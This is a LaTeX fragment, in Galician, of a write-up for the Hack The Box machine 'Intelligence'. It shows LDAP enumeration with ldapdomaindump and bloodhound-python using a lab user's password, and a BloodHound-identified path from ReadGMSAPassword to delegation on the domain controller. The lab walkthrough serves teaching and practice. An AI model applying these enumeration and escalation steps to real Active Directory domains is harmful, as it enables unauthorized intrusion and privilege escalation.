 \documentclass[a4paper]{article}
\newcommand{\bloodhound}{graph-bloodhound-elevation-privilege.png}
\newcommand{\ipTarget}{10.10.10.248}
\begin{document}
Buscando en 10.10.10.248/Users e 10.10.10.248/IT non atopamos nada de interese.

\subsection{Enumeración LDAP: ldapdomaindump + bloodhound}
\subsubsection{GMSApassword}
Imos estudar o directorio ldap mediante \textbf{ldapdomaindump} e \textbf{bloodhound} ou \textbf{sharphound}:
        \begin{lstlisting}[language=Bash, caption=ldapdomaindump]
$ ldapdomaindump -u'intelligence.htb\Tiffany.Molina' -p'NewIntelligenceCorpUser9876' 10.10.10.248
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished\end{lstlisting}             

Buscamos información do usuario Ted.Graves:
        \begin{lstlisting}[language=Bash, caption=Información sobre o usuario Ted.Graves]
$ firefox $(grep -Hi ted.graves *html | cut -d ':' -f1 | sort -u)\end{lstlisting}

        \begin{lstlisting}[language=Bash, caption=bloodhound, linewidth=17.8cm]
$ sudo neo4j console
$ bloodhound-python -c All -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -ns ¬\ipTarget¬ -d intelligence.htb
$ mkdir bloodhound; bloodhound >/dev/null 2>&1 &;disown
\end{lstlisting}

Buscamos en bloodhound por \emph{Analysis - Shortest Paths - Shortest Paths to Unconstrained Delegation Systems} e parece que obtemos un xeito de elevar privilexios, como podemos observar na seguinte imaxe: 
        \begin{figure}[h]
                \centering
                \texttt{[image: \\bloodhound]}
                \caption{Elevación de privilexios}
        \end{figure}


        \begin{tcolorbox}[colback=green!5!white,colframe=green!75!black]
Ted Graves - ReadGMSAPassword - svc\_int - AllowedToDelegate - DC.INTELLIGENCE.HTB
SVC\_INT\@INTELLIGENCE.HTB is a Group Managed Service Account. The group ITSUPPORT\@INTELLIGENCE.HTB can retrieve the password for the GMSA SVC\_INT\@INTELLIGENCE.HTB.\end{tcolorbox}
\end{document}
